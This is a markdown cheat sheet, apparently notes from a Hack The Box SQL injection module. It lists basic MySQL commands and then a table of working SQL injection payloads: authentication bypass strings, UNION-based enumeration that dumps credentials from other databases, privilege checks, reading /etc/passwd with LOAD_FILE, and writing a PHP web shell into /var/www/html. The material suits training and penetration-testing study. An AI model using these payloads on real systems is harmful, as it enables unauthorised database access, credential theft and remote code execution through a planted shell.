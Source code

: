 ## MySQL

|**Command**|**Description**|
|---|---|
|**General**||
|`mysql -u root -h docker.hackthebox.eu -P 3306 -p`|login to mysql database|
|`SHOW DATABASES`|List available databases|
|`USE users`|Switch to database|
|**Tables**||
|`CREATE TABLE logins (id INT, ...)`|Add a new table|
|`SHOW TABLES`|List available tables in current database|
|`DESCRIBE logins`|Show table properties and columns|
|`INSERT INTO table_name VALUES (value_1,..)`|Add values to table|
|`INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)`|Add values to specific columns in a table|
|`UPDATE table_name SET column1=newvalue1, ... WHERE <condition>`|Update table values|
|**Columns**||
|`SELECT * FROM table_name`|Show all columns in a table|
|`SELECT column1, column2 FROM table_name`|Show specific columns in a table|
|`DROP TABLE logins`|Delete a table|
|`ALTER TABLE logins ADD newColumn INT`|Add new column|
|`ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn`|Rename column|
|`ALTER TABLE logins MODIFY oldColumn DATE`|Change column datatype|
|`ALTER TABLE logins DROP oldColumn`|Delete column|
|**Output**||
|`SELECT * FROM logins ORDER BY column_1`|Sort by column|
|`SELECT * FROM logins ORDER BY column_1 DESC`|Sort by column in descending order|
|`SELECT * FROM logins ORDER BY column_1 DESC, id ASC`|Sort by two-columns|
|`SELECT * FROM logins LIMIT 2`|Only show first two results|
|`SELECT * FROM logins LIMIT 1, 2`|Only show first two results starting from index 2|
|`SELECT * FROM table_name WHERE <condition>`|List results that meet a condition|
|`SELECT * FROM logins WHERE username LIKE 'admin%'`|List results where the name is similar to a given string|

## MySQL Operator Precedence


## SQLi Discovery

| Payload             | URL Encoded                            |
| ------------------- | -------------------------------------- |
| `'`                 | `%27`                                  |
| `"`                 | `%22`                                  |
| `#`                 | `%23`                                  |
| `;`                 | `%3B`                                  |
| `)`                 | `%29`                                  |
| `'"` or `"'`        |                                        |
| `' or '1'='1';-- -` | Should come back true or with an error |

## SQL Injection

| **Payload**                                                                                                                                | **Description**                                      |
| ------------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------- |
| **Auth Bypass**                                                                                                                            |                                                      |
| `admin' or '1'='1`                                                                                                                         | Basic Auth Bypass                                    |
| `admin')-- -`                                                                                                                              | Basic Auth Bypass With comments                      |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)              |                                                      |
| **Union Injection**                                                                                                                        |                                                      |
| `' order by 1-- -`                                                                                                                         | Detect number of columns using `order by`            |
| `cn' UNION select 1,2,3-- -`                                                                                                               | Detect number of columns using Union injection       |
| `cn' UNION select 1,@@version,3,4-- -`                                                                                                     | Basic Union injection                                |
| `UNION select username, 2, 3, 4 from passwords-- -`                                                                                        | Union injection for 4 columns                        |
| **DB Enumeration**                                                                                                                         |                                                      |
| `SELECT @@version`                                                                                                                         | Fingerprint MySQL with query output                  |
| `SELECT SLEEP(5)`                                                                                                                          | Fingerprint MySQL with no output                     |
| `cn' UNION select 1,database(),2,3-- -`                                                                                                    | Current database name                                |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`                                                                  | List all databases                                   |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`                                 | List all tables in a specific database               |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`                | List all columns in a specific table                 |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -`                                                                       | Dump data from a table in another database           |
| **Privileges**                                                                                                                             |                                                      |
| `cn' UNION SELECT 1, user(), 3, 4-- -`                                                                                                     | Find current user                                    |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`                                                               | Find if user has admin privileges                    |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -` | Find if all user privileges                          |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection**                                                                                                                         |                                                      |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`                                                                                   | Read local file                                      |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'`                                                               | Write a string to a local file                       |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`                                  | Write a web shell into the base web directory        |
